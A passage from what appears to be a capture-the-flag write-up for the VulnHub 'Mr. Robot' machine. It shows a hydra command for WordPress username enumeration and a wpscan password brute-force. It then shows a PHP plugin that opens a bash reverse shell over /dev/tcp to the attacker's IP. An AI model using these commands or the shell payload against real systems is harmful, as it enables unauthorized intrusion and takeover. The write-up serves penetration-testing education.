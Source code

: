We can use that to enumerate some valid usernames by using `hydra` to brute-force:

```bash
$ hydra -L fsociety_filtered.dic -p whatever 192.168.1.25 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

![hydra](https://amirr0r.github.io/assets/img/vulnhub/linux/mr-robot/hydra.png)

And we find `elliot` as a valid username. Indeed:

![elliot](https://amirr0r.github.io/assets/img/vulnhub/linux/mr-robot/elliot.png)

##### Bruteforcing elliott password

With `wpscan`, we can try to find his password:

```bash
$ wpscan --url https://192.168.1.25/ --disable-tls-checks --password-attack wp-login -U elliot -P fsociety_filtered.dic -t 100 
```

And we succeed:

![credentials.png](https://amirr0r.github.io/assets/img/vulnhub/linux/mr-robot/creds.png)

### Reverse shell

I uploaded a new plugin containing the following code:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.171/1234 0>&1'");
```

![Add plugin](https://amirr0r.github.io/assets/img/vulnhub/linux/mr-robot/add-plugins.png)

Despite that I encountered an error, the malicious PHP file was successfully uploaded in `/wp-content/uploads`:

![Error Install plugin](https://amirr0r.github.io/assets/img/vulnhub/linux/mr-robot/Install-plugin.png)

I retrieved its location by looking at the **Media Library**:

![Media Library](https://amirr0r.github.io/assets/img/vulnhub/linux/mr-robot/media-library.png)

![shell.php URL](https://amirr0r.github.io/assets/img/vulnhub/linux/mr-robot/plugin-URL.png)

When we visite the URL [http://192.168.1.25/wp-content/uploads/2021/01/shell.php](http://192.168.1.25/wp-content/uploads/2021/01/shell.php), we have a shell:

![reverse-shell](https://amirr0r.github.io/assets/img/vulnhub/linux/mr-robot/reverse-shell.png)


### User (`robot`)
